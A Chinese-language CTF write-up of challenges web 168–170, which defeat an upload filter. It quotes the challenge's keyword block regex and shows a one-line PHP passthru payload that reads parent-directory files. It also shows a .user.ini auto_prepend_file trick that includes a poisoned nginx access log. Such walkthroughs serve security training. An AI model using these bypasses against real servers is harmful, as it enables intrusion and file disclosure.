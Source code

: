 ## web 168 免杀

题目提到了免杀，做完时查看源码

```php
preg_match('/eval|assert|assert|_POST|_GET|_COOKIE|system|shell_exec|include|require/i', $str);
```

注意，如果上传没有反应，检查一下

:::warning
过滤了很多。如果你上传的png马里含有这些内容，你的图片都不会上传成功
:::

这题没有其他限制，可以bp抓包把png改成php直接解析

文件上传到了html的同级目录upload下了，查看上一级下的所有文件内容

```php
<?=passthru('tac ../*');?>
```

## web 169 高级免杀

源码里看到，这题要上传zip文件，但content-type看起来是要image

![image](https://the0n3.top/medias/show-upload/30.png)

题目没有检查zip有没有猫腻，直接把zip内容改成php代码试试，上传zip，把content-type改成image/png

```php
<?=phpinfo();?>
```

![php](https://the0n3.top/medias/show-upload/31.png)

把php代码删掉。只留标记也会上传失败，这个php文件没的玩了

![php](https://the0n3.top/medias/show-upload/33.png)

空的php文件还能上传，确实挺不错的

![php](https://the0n3.top/medias/show-upload/34.png)

还可以试试.user.ini文件包含，把日志包含到1.php里

```zip
auto_prepend_file=/var/log/nginx/access.log
```

![ini](https://the0n3.top/medias/show-upload/32.png)

上传成功，.user.ini在upload目录下，那么我们也要到upload目录下的php页面

![log](https://the0n3.top/medias/show-upload/35.png)

## web 170 终极免杀

上一关方法仍然适用